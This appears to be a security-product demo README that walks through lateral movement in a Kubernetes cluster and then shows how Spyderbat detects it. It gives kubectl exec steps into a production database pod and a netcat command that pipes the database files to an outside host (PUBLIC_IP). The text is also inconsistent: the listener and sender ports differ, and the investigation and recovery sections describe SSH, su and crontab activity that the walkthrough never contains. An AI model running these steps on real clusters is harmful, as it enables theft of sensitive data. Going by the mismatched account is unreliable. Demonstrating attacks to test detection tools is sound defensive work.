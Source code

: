 # Lateral Movement Within the Cluster

This scenario shows an attacker accessing one portion of a cluster, and using the access in that namespace to move to another and exfiltrate data.

## Running the Exploit

For this scenario, we are going to use some debugging resources left over by Bob, a developer who decided he needed to be able to get direct access to the RSVP app to debug it. Since he forgot to clean up after solving the bugs, there is now an extra pod in the build namespace with some convenient developer tools.

Let's exec into the developer pod to begin.

```sh
kubectl exec -it -n lateral-movement-build bobdev -- /bin/bash
```

Taking a look at the bash history, it looks like Bob used kubectl to get into another namespace:

```sh
history
```
```
    1  ls
    2  kubectl config view
    3  kubectl get pods -A
    4  kubectl get pods -n lateral-movement-prod
    5  kubectl describe pods -n lateral-movement-prod
    6  kubectl exec -n lateral-movement-prod payrolldb-6f7996c855-vrmrt -- hostname
    7  history
```

It looks like the deployment he was accessing is still here:

```sh
kubectl get pods -n lateral-movement-prod
```
```
NAME                         READY   STATUS    RESTARTS   AGE
payrolldb-6cd4447758-2zcq4   1/1     Running   0          3m9s
```

Let's follow in Bob's footsteps.

```sh
kubectl exec -it -n lateral-movement-prod <PODNAME> -- /bin/bash
```

Now, we have ended on a pod in the production namespace, and a database pod on top of that. Taking a look around:

```
root@payrolldb-6cd4447758-2zcq4:/# whoami
root
root@payrolldb-6cd4447758-2zcq4:/# ls
bin  boot  data  dev  docker-entrypoint-initdb.d  etc  home  js-yaml.js  lib  lib32  lib64  libx32  media  mnt	opt  proc  root  run  sbin  srv  sys  tmp  usr	var
root@payrolldb-6cd4447758-2zcq4:/# ls data/
configdb  db
```

It looks like we have full access to the database:

```sh
ls -la data/db
```

From here, we can directly extract the data we want. For example, using netcat: on a different publicly accessible computer (such as the jumpserver set up for the external lateral movement demo), run this command:

```sh
nc -l 1234 > download
```

Then run this in the pod:

```sh
apt update && apt install netcat
cat data/db/collection-0--*.wt | nc PUBLIC_IP 7777
# wait a few seconds, then kill the command with Ctrl-C
```

On the public server, you should now have the collection-0 file.

## Investigation

[[TODO]]

Now that we have demonstrated lateral movement within the cluster, let's see what this looks like in Spyderbat. This test should trigger two Spydertraces - one for each machine we have accessed. On the Spyderbat Console's Dashboard page, navigate to the Security tab. Under "Recent Spydertraces with a score > 50", there are two new traces: `container_shell` and `root_shell` (or `falco_flag`, if you have the Falco integration installed). Select these two traces and click "Start Process Investigation" to start investigating these two traces together.

In the investigation view, we can now clearly see what happened. On the left side, we accessed the bobdev container, took a look around, and then ran an SSH command to connect to the other, an SSH server. After connecting, `apk` was run, followed by `su` and `crontab`.

![An example graph of this exploit.](./lateral_movement_process_graph.png)

The graph you see may differ a bit from what is shown here. Often, some extra processes end up being linked into the trace due to their proximity. To clean up the trace, you can right-click on unneeded branches of the causal tree and remove them, or shift them left or right to make the sequence easier to read. Once you have a graph that has only the information you are interested in, you can save it and share it with other users in your organization by clicking "Copy Investigation Link" at the top of the graph view.

## Next Steps

With the data gathered in this investigation, we can now prepare a few recovery steps:

- Remove the crontab entry that was added for persistence.
- Remove the SSH server and development container that Bob left.
- Check for any other containers that should not exist in the production environment. Spyderbat's Search feature could help with this - search for Containers where the image matches `*ssh*`, for example.
- Have Bob rotate his SSH keys.
- Revise debugging procedures for the affected applications.


